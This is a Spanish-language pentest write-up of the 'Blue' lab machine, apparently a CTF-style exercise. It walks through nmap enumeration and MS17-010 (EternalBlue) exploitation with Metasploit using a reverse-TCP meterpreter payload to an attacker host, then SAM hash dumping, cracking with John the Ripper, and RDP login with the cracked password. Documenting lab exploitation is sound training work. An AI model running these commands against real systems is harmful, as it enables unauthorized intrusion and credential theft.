

---
layout: default
---

# Máquina BLUE

# Reporte de Pentesting - Fase 1: Reconocimiento

## 1.1 Resumen Ejecutivo

Se validó la disponibilidad del objetivo mediante protocolos de control y se intentó una identificación de servicios web inicial. Los resultados sugieren un entorno basado en Windows con el puerto 80 cerrado.

## 1.2 Actividades Realizadas y Comandos

Para esta fase se ejecutaron las siguientes herramientas de recolección de información:

1. **Verificación de Conectividad y TTL:**
    - **Comando:** `ping -c 4 <IP_OBJETIVO>`
    - **Propósito:** Confirmar estado del host y estimar el OS mediante el Time To Live (TTL).
    - **Resultado:** TTL=126 (Compatible con Windows).
2. **Fingerprinting de Tecnologías Web:**
    - **Comando:** `whatweb <http://<IP_OBJETIVO>`
    - **Propósito:** Identificar CMS, servidores y librerías en el puerto estándar HTTP.
    - **Resultado:** `Connection refused`. El puerto 80 no está aceptando conexiones.

## 1.3 Resultados Obtenidos

| Parámetro | Valor |
| --- | --- |
| **IP Objetivo** | 10.130.128.214 |
| **Estado** | Operativo |
| **OS Estimado** | Windows |
| **Puerto 80** | Cerrado/Refused |

# Reporte de Pentesting - Fase 2: Escaneo y Enumeración

## 2.1 Resumen Ejecutivo

Se realizó un escaneo exhaustivo de puertos y servicios sobre el objetivo. Se identificó un sistema Windows 7 desactualizado con servicios críticos de red (SMB y RDP) expuestos.

## 2.2 Actividades Realizadas y Comandos

Para esta fase se ejecutó un escaneo agresivo para detección de versiones y scripts:

1. **Escaneo Completo de Puertos y Servicios:**
    - **Comando:** `sudo nmap -p- --open -sS -Pn -sV -sC --min-rate 5000 <IP_OBJETIVO>`
    - **Propósito:** Identificar todos los puertos abiertos, versiones de software y configuraciones por defecto.
    - **Resultado:** Detección de SMB (445) y RDP (3389) sobre Windows 7 SP1.

## 2.3 Hallazgos (Puertos Abiertos)

| Puerto | Servicio | Versión | Observaciones |
| --- | --- | --- | --- |
| 135/tcp | msrpc | Microsoft Windows RPC | Servicio de comunicaciones |
| 139/tcp | netbios-ssn | Microsoft Windows netbios-ssn | Resolución de nombres |
| 445/tcp | microsoft-ds | Windows 7 Pro 7601 SP1 | **Crítico:** SMB sin firmas requeridas |
| 3389/tcp | rdp | Microsoft Terminal Services | RDP activo (JON-PC) |

## 2.4 Evidencias

> 
> 
> 
> 
> 

# Reporte de Pentesting - Fase 3: Análisis de Vulnerabilidades

## 3.1 Resumen Ejecutivo

Tras la fase de enumeración, se procedió a la validación de vectores de ataque específicos. Se ha confirmado que el objetivo es vulnerable al exploit **MS17-010 (EternalBlue)**, lo que permite a un atacante no autenticado tomar el control total del sistema con privilegios máximos.

## 3.2 Actividades Realizadas y Comandos

Para confirmar la vulnerabilidad sin comprometer la estabilidad del sistema, se ejecutaron las siguientes acciones:

1. **Escaneo de Vulnerabilidades con Scripts de Nmap (NSE):**
    - **Comando:** `nmap -p445 --script smb-vuln-ms17-010 <IP_OBJETIVO>`
    - **Propósito:** Verificar si el servicio SMBv1 del objetivo es susceptible al ataque EternalBlue (CVE-2017-0143).
    - **Resultado:** **VULNERABLE**. Se identificó un riesgo de factor **ALTO**.
2. **Enumeración de Recursos SMB (Null Session):**
    - **Comando:** `smbclient -L //<IP_OBJETIVO> -N`
    - **Propósito:** Intentar listar recursos compartidos de forma anónima.
    - **Resultado:** `Anonymous login successful`, aunque no se detectaron recursos compartidos adicionales accesibles mediante este método.

## 3.3 Hallazgos Identificados

| Vulnerabilidad | ID CVE | Severidad | Impacto |
| --- | --- | --- | --- |
| **MS17-010 (EternalBlue)** | CVE-2017-0143 | Crítica | Ejecución Remota de Código (RCE) como SYSTEM |

## 3.4 Evidencias

> 
> 
> 
> 
> 

# Reporte de Pentesting - Fase 4: Explotación Controlada

## 4.1 Resumen Ejecutivo

Tras confirmar que el sistema objetivo (Windows 7 SP1) es vulnerable a **MS17-010 (EternalBlue)**, se procedió a realizar una explotación controlada utilizando el framework Metasploit. El objetivo fue establecer una sesión remota con privilegios elevados para validar el impacto de la vulnerabilidad.

## 4.2 Actividades Realizadas y Comandos

La explotación se llevó a cabo siguiendo estos pasos técnicos:

1. **Selección del Exploit:**
    - **Comando:** `use exploit/windows/smb/ms17_010_eternalblue`
    - **Descripción:** Se seleccionó el módulo específico para el desbordamiento de memoria en el protocolo SMBv1.
2. **Configuración del Entorno de Red:**
    - **Comando:** `set RHOSTS <IP_OBJETIVO>` (IP de la Víctima)
    - **Comando:** `set LHOST 192.168.143.6` (IP del Atacante - tun0)
    - **Payload:** Se utilizó por defecto `windows/x64/meterpreter/reverse_tcp`.
3. **Ejecución del Ataque:**
    - **Comando:** `exploit`
    - **Resultado:** El exploit logró realizar el "overwrite" de la memoria con éxito (`ETERNALBLUE overwrite completed successfully`) y envió el 'stage' del payload.
4. **Verificación de Identidad:**
    - **Comando:** `getuid`
    - **Resultado:** `Server username: NT AUTHORITY\\SYSTEM`.

## 4.3 Resultados del Acceso

| Parámetro | Detalle |
| --- | --- |
| **Nivel de Privilegio** | **SYSTEM** (Máximo privilegio en Windows) |
| **Estabilidad** | Sesión de Meterpreter activa |
| **Persistencia inicial** | Confirmada mediante la lista de procesos (`ps`) |

## 4.4 Evidencias (Capturas de Pantalla)

> **Captura 04: Ejecución del exploit y confirmación de privilegios SYSTEM**
> 
> 
> 
> 

# 5. Fase de Explotación y Compromiso de Credenciales

## 5.1 Resumen de la Intrusión

Tras la fase de enumeración, se confirmó que el objetivo era vulnerable al exploit **MS17-010 (EternalBlue)**. La ejecución de este exploit permitió saltar todas las barreras de autenticación iniciales, otorgando una sesión de comandos con el privilegio más alto existente en Windows: **NT AUTHORITY\SYSTEM**.

## 5.2 Extracción de la Base de Datos SAM

Con el control total del sistema, se procedió a extraer los secretos almacenados en la **Security Account Manager (SAM)**. Este paso es crítico para identificar a los usuarios reales y sus niveles de acceso.

- **Comando Ejecutado:** `hashdump`
- **Hash NTLM de Jon:** `ffb43f0de35be4d9917ac0cc8ad57f8d`
- **Observación:** El hash del Administrador (`31d6cfe...`) indica una contraseña vacía, lo que sugiere que la cuenta está deshabilitada o no se utiliza.

## 5.3 Cracking de Contraseñas (John the Ripper)

Para obtener la contraseña en texto claro y poder suplantar la identidad del usuario de forma legítima, se realizó un ataque de diccionario offline.

1. **Herramienta:** John the Ripper.
2. **Diccionario:** `rockyou.txt`.
3. **Resultado:** El hash fue quebrado en menos de un segundo debido a la baja complejidad de la clave.
    - **Usuario:** Jon
    - **Contraseña:** `alqfna22`

> 
> 
> 
> 
> 

## 5.4 Validación de Identidad vía RDP

Para demostrar el impacto real de la vulnerabilidad, se utilizó la contraseña obtenida para iniciar una sesión de **Escritorio Remoto (RDP)**. Esto permite al atacante interactuar con la interfaz gráfica, ver documentos personales y realizar acciones que un simple comando de consola no permitiría.

- **Herramienta de acceso:** `rdesktop` / `xfreerdp`
- **Credenciales validadas:** `Jon` : `alqfna22`
- Comando: `rdesktop -u Jon -p alqfna22 -g 1280x720 -P -z 10.130.128.214`
- **Resultado:** Acceso exitoso al entorno de escritorio de **JON-PC**.

> 
> 
> 
> 
> 

## 5.5 Conclusión de Privilegios

Aunque accedimos inicialmente como **SYSTEM** (el nivel "Súper Root"), la obtención de la contraseña de **Jon** garantiza:

1. **Persistencia:** Podemos volver a entrar incluso si el exploit deja de funcionar.
2. **Privilegios de Administrador:** El usuario Jon pertenece al grupo de administradores, permitiendo la gestión total del equipo de forma visual.
